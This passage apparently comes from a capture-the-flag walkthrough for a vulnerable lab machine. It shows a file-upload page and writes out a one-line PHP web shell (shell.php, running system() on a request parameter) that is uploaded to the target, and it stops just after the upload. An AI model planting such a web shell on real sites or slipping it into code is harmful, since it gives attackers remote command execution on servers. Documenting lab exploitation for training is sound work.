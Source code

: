 ![file upload](/images/driftingblues_fileupload.png)

We create a simple web shell named `shell.php` with the following content.
```php
<?php system($_REQUEST['cmd']) ?>
```

After we uploaded this file the website looks like the following.
